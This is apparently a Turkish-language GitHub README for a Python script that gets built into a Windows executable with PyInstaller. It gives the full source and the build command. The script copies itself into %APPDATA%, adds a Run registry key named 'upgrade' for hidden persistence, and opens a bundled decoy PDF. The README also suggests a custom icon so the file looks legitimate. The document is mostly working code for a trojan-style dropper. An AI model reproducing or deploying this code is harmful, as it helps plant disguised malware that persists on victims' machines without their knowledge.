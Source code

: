 # 🛠️ Persistence Script with PDF Execution and Custom Icon

Bu proje, Windows ortamında **kalıcılık (persistence)** sağlamak ve çalıştırıldığında beraberindeki bir **PDF** dosyasını açmak üzere hazırlanmış bir Python scriptidir. Ayrıca, `.exe` dosyasına özel bir **ikon (.ico)** da atanabilir.

---

## 🔍 Özellikler

- `AppData` altına kendini kopyalayarak gizli kalıcılık sağlar.
- `HKCU\...\Run` anahtarına kayıt ekleyerek kullanıcı oturum açtığında otomatik çalışır.
- PyInstaller ile paketlenmiş `.exe` içerisine gömülü bir `PDF` dosyasını açar.
- Özel `.ico` dosyası sayesinde çalıştırılabilir dosyanız profesyonel bir görünüme sahip olur.

---

## 🧪 Kurulum ve Kullanım

### 1. Python Scripti

```python
import time
import subprocess
import os
import shutil
import sys

def add_to_registry():
    # persistence
    new_file = os.environ["appdata"] + "\\deneme.exe"
    if not os.path.exists(new_file):
        shutil.copyfile(sys.executable, new_file)
        regedit_command = "reg add HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v upgrade /t REG_SZ /d " + new_file
        subprocess.call(regedit_command, shell=True)

add_to_registry()

def open_added_file():
    added_file = sys._MEIPASS + "\\deneme.pdf"
    subprocess.Popen(added_file, shell=True)

open_added_file()
```

### 2. Gerekli Dosyaları Hazırla

- `deneme.pdf` → Açılacak PDF dosyası
- `icon.ico` → Program simgesi olarak kullanılacak ikon dosyası

### 3. PyInstaller ile Derleme

```bash
pyinstaller --onefile --add-data "deneme.pdf;." --icon=icon.ico scriptadi.py
```

> `--icon=icon.ico` parametresi, `.exe` dosyasına özel bir ikon ekler. Bu, masaüstünde veya dosya gezgininde daha profesyonel bir görünüm sağlar.

---

## ⚙️ Nasıl Çalışır?

- `add_to_registry()` fonksiyonu:
  - Scriptin kendisini `%APPDATA%\deneme.exe` konumuna kopyalar.
  - Windows'un kayıt defterine (`HKCU\...Run`) bu konumu otomatik çalıştırmak için ekler.

- `open_added_file()` fonksiyonu:
  - PyInstaller ile paketlenmiş `.exe` içerisinden `deneme.pdf` dosyasını çıkarır ve çalıştırır.

---

